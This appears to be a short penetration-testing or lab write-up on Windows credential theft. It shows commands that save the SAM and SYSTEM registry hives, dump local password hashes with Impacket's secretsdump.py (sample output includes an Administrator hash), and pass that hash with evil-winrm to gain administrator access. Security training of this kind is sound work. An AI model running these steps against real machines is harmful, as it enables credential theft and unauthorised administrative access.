 # SAM SYSTEM Exfil / Pass The Hash

* We then proceed to make a backup of `SAM` and `SYSTEM` files and download them to our attacker machine:

```
reg save hklm\system system.bak
reg save hklm\sam sam.bak
```

* With those files, we can dump the password hashes for all users using secretsdump.py or other similar tools:

```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
--snip--
```

* And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:

```
evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

